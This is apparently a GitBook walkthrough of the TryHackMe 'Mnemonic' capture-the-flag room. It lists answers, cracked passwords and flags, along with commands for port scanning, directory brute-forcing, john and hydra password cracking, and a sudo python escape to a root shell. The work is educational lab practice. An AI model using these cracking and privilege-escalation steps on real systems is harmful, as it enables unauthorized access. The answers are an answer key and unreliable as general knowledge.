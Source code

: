 # Mnemonic

## Mnemonic

{% embed url="https://www.youtube.com/watch?v=pBSR3DyobIY" %}

{% hint style="success" %}
No answer needed
{% endhint %}

## Enumerate

### How many open ports?

```bash
nmap -sC -sV -T5 -p1-65535 10.10.109.236
```

![](../.gitbook/assets/image%20%28166%29.png)

{% hint style="success" %}
3
{% endhint %}

### What is the ssh port number? 

![](../.gitbook/assets/image%20%28146%29.png)

{% hint style="success" %}
1337
{% endhint %}

### What is the name of the secret file?

![](../.gitbook/assets/image%20%28165%29.png)

```bash
gobuster dir -u http://10.10.109.236 -w /usr/share/dirb/wordlists/common.txt

gobuster dir -u http://10.10.109.236 -w big.txt -x php,txt,html -t 50
```

![](../.gitbook/assets/image%20%28151%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/ -w big.txt -x php,txt,html -t 50
```

![](../.gitbook/assets/image%20%28164%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/admin/ -w big.txt -x php,txt,html -t 50

```

![](../.gitbook/assets/image%20%28142%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/backups -w /usr/share/dirb/wordlists/common.txt -x sql,php,txt,css,zip,csv,dat,dbf,log,mdb,sav,tar,xml,cgi
```

![](../.gitbook/assets/image%20%28143%29.png)

![](../.gitbook/assets/image%20%28156%29.png)

{% hint style="success" %}
backups.zip
{% endhint %}

## Credentials

```bash
zip2john backups.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28141%29.png)

```bash
unzip backups.zip
00385007
cat backups/note.txt
```

![](../.gitbook/assets/image%20%28172%29.png)

###  ftp user name? 

```bash
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.109.236 -t 50 
```

{% hint style="success" %}
ftpuser
{% endhint %}

### ftp password? 

![](../.gitbook/assets/image%20%28139%29.png)

{% hint style="success" %}
love4ever
{% endhint %}

### What is the ssh username? 

![](../.gitbook/assets/image%20%28153%29.png)

![](../.gitbook/assets/image%20%28140%29.png)

![](../.gitbook/assets/image%20%28152%29.png)

{% hint style="success" %}
james
{% endhint %}

### What is the ssh password?

```bash
chmod 600 id_rsa
ssh -i id_rsa james@10.10.109.236
```

![](../.gitbook/assets/image%20%28154%29.png)

```bash
python3 /usr/share/john/ssh2john.py id_rsa > john_ssh.txt
john --wordlist=/usr/share/wordlists/rockyou.txt john_ssh.txt

```

![](../.gitbook/assets/image%20%28173%29.png)

{% hint style="success" %}
bluelove
{% endhint %}

### What is the condor password? 

```bash
ssh james@10.10.109.239 -p 1337
```

![](../.gitbook/assets/image%20%28150%29.png)

![](../.gitbook/assets/image%20%28155%29.png)

![](../.gitbook/assets/image%20%28162%29.png)

![](../.gitbook/assets/image%20%28134%29.png)

![](../.gitbook/assets/image%20%28160%29.png)

![](../.gitbook/assets/image%20%28161%29.png)

```bash
git clone https://github.com/MustafaTanguner/Mnemonic
cd Mnemonic/
python3 -m pip install --user colored
python3 -m pip install --user opencv-python
```

![](../.gitbook/assets/image%20%28145%29.png)

```bash
python3 Mnemonic.py
/root/mnemonic/maxresdefault.jpg
2
/root/mnemonic/6450.txt
```

![](../.gitbook/assets/image%20%28135%29.png)

{% hint style="success" %}
pasificbell1981
{% endhint %}

## Hack the machine

### user.txt 

{% hint style="success" %}
THM{a5f82a00e2feee3465249b855be71c01}
{% endhint %}

### root.txt

```bash
ssh -p 1337 condor@10.10.109.239
sudo -l
```

![](../.gitbook/assets/image%20%28169%29.png)

![](../.gitbook/assets/image%20%28138%29.png)

```bash
sudo /usr/bin/python3 /bin/examplecode.py
0
.
/bin/bash
```

![](../.gitbook/assets/image%20%28171%29.png)

![](../.gitbook/assets/image%20%28136%29.png)

{% hint style="success" %}
THM{2a4825f50b0c16636984b448669b0586}
{% endhint %}

